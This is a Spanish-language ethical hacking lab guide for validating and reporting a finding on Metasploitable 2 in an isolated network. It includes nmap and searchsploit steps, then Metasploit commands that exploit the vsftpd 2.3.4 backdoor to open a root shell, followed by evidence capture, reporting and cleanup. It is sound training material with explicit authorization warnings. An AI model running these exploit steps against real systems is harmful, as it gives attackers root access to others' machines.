

# Laboratorio: validación controlada y reporte

[Inicio](../../../README.md) | [Ethical Hacking](../../README.md) | [Sesión 05](../README.md)

> [!CAUTION]
> Este laboratorio explota una vulnerabilidad real **solo** en la VM Metasploitable 2 de la red aislada. No lo ejecutes contra otros sistemas. Restaura el snapshot al terminar.

## Alcance

El objetivo es tomar un hallazgo de la sesión 04, validarlo con el mínimo impacto, recolectar evidencia y redactar un reporte profesional. Se practica:

- Confirmar versión y mapear una debilidad conocida.
- Revisar y ejecutar un módulo de Metasploit con criterios de mínimo impacto.
- Capturar evidencia de forma reproducible.
- Redactar un hallazgo con la [plantilla de reporte](./plantilla-reporte.md).

## Requisitos

- Metasploitable 2 en `192.168.56.105` dentro de la red host-only.
- Kali Linux con `metasploit-framework`, `nmap` y `exploitdb`.
- Snapshot `base-limpia` de ambas VMs.
- Autorización expresa y ventana de prueba acordada.

```bash
sudo apt update
sudo apt install -y metasploit-framework exploitdb nmap
```

## Topología



---

## 1. Reproducir la observación

Confirma el servicio y la versión identificados en la sesión anterior:

```bash
nmap -p21 -sV 192.168.56.105
```

Resultado esperado:

```text
21/tcp open  ftp  vsftpd 2.3.4
```

---

## 2. Mapear la debilidad conocida

```bash
searchsploit vsftpd 2.3.4
```

Resultado esperado:

```text
vsftpd 2.3.4 - Backdoor Command Execution
```

Anota la referencia. Recuerda: es una **hipótesis** hasta validarla.

---

## 3. Revisar el módulo antes de usarlo

```bash
msfconsole -q
```

```text
msf6 > search vsftpd 2.3.4
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info
```

Lee la descripción y las opciones. Comprueba si el módulo soporta `check`:

```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > check
```

Resultado esperado, si el objetivo es vulnerable:

```text
[+] 192.168.56.105:21 - The target is vulnerable.
```

---

## 4. Explotación mínima

Configura el objetivo y lanza el exploit con el payload interactivo:

```text
msf6 > set RHOSTS 192.168.56.105
msf6 > set LHOST 192.168.56.10
msf6 > show options
msf6 > run
```

Resultado esperado:

```text
[*] Sending stage...
[*] Command shell session 1 opened
```

> [!IMPORTANT]
> Si el módulo no abre sesión en el primer intento, no lo lances en bucle. El servicio puede volverse inestable. Anota el resultado y valida el hallazgo por otra vía documentada.

---

## 5. Capturar evidencia

Con la sesión abierta, demuestra el privilegio obtenido y cierra:

```text
id
whoami
hostname
exit
```

Guarda la evidencia en tus notas:

```text
Comando:        msf6 > run
Salida:         Command shell session 1 opened
Verificación:   id -> uid=0(root) gid=0(root)
Hora:           2026-01-01 10:30
Objetivo:       192.168.56.105:21
Impacto:        ejecución de comandos como root
```

Cierra la sesión de Metasploit:

```text
msf6 > sessions -l
msf6 > sessions -K
msf6 > exit
```

---

## 6. Redactar el reporte

Copia la [plantilla de reporte](./plantilla-reporte.md) y completa cada campo con la evidencia recolectada. Comprueba que el reporte:

- Describe la debilidad sin ambigüedad.
- Incluye evidencia reproducible y marca temporal.
- Explica el impacto de negocio.
- Propone una remediación concreta.
- Distingue el resumen ejecutivo del detalle técnico.

---

## Validación y resultados esperados

Checklist técnico:

- [ ] La versión vulnerable se confirmó con `nmap -sV`.
- [ ] La debilidad se mapeó a una referencia conocida.
- [ ] El módulo se revisó antes de ejecutarlo.
- [ ] La evidencia incluye comando, salida, hora y objetivo.
- [ ] El reporte tiene las secciones de la plantilla completadas.
- [ ] La sesión de Metasploit se cerró al terminar.

## Limpieza

1. Cierra todas las sesiones de Metasploit.
2. Detén `msfconsole`.
3. Elimina las notas temporales y capturas con datos sensibles.
4. Restaura el snapshot `base-limpia` de Metasploitable 2 para borrar cualquier cambio.

```text
msf6 > sessions -K
msf6 > exit
```

[Volver a la sesión](../README.md) | [Volver a Ethical Hacking](../../README.md) | [Inicio](../../../README.md)
